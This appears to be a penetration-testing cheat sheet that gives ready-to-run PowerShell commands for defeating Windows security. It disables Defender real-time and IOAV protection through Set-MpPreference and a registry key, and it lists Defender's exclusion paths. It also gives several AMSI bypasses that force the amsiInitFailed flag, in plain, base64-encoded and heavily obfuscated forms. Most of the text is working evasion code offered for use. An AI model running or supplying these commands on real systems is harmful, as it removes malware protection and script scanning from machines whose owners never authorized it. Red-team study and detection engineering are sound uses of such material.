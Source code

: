 
## Windows Defender
### Disable Windows Defender
In PowerShell, the following 2 commands with *Admin privilege*:
 
	Set-MpPreference -DisableRealtimeMonitoring $true -force
	Set-MpPreference -DisableIOAVProtection $true
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

## Path Exclusion

Check that path from which Windows Defender allows execusion.

`Get-MpPreference | Select-Object -ExpandProperty ExclusionPath` 

## Windows Firewall
### Creating rules
TODO

## Bypass AMSI

Article showing multiple methods https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

AMSI is short for Antimalware Scan Interface.

The goal of AMSI is to prevent the execution of arbitrary code containing malicious content.

### Basic - Forcing an AMSI Initialization Failure

Likely detectable

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

Base64 Encoded

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### Obfuscation

#### Obfuscated Command 1

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
